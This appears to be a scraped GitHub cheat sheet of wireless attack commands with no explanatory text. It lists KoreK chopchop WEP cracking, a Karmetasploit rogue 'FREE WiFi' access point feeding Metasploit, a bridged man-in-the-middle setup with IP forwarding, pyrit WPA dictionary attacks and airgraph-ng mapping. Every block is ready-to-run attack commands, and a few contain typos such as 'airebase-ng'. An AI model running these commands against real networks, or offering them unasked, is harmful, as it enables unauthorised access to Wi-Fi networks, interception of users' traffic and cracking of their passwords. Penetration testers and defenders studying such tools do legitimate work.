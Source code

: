 > **KOREK**
```
~aireplay-ng -4 -b (AP MAC) -h (OUR MAC) wlan0mon
tcpdump -s 0 -s -e -r replayfilename.cap
packetforge-ng -0 -a (APMAC) -h (OUR MAC) -l 255.255.255.255(source IP) -k 255.255.255.255(dest IP) -y (fragmentfilename xor) -w filename.cap
aireplay-ng -2 -r filename.cap wlan0mon
aircrack-ng -0 filename.cap
```

**Karmetasploit**
```
airbase-ng -c (channel) -P -C 60 -e “FREE WiFi” -v wlan0mon
ifconfig at0 up 10.0.0.1/24
mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases
cat dhcpd.conf
touch /tmp/dhcp.log
chown dhcpd:dhcpd /tmp/dhcp.log
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0
msfconsole -r /root/karma.rc
```

**Bridge CTRL man in the middle SETUP**
```
airebase-ng -c 3 -e “FREE WiFi” wlan0mon
brctl addbr hacker(interface name)
brctl addif hacker eth0
brctl addif hacker at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up
ifconfig hacker
echo 1 > /proc/sys/net/ipv4/ip_forward
```

**pyrit DB attacks**
```
pyrit eval
pyrit -i (wordlist) import_passwords
pyrit -e (essid) create_essid
pyrit batch
pyrit batch -r (capturefile) -b(AP MAC) attack_db
pyrit strip
pyrit -r (capturefile) -o (capturefile output) strip
pyrit dictionary attack
pyrit -r (capturefile) -i (/pathtowordlist) -b (AP MAC) attack_passthrough
```

**airgraph-ng**
```
airgraph-ng -i filename.csv -g CAPR -o outputfilename.png
eog outputfilename.png
airgraph-ng -i filename.csv -g CPG -o outputfilename.png
eog outputfilename.png
```
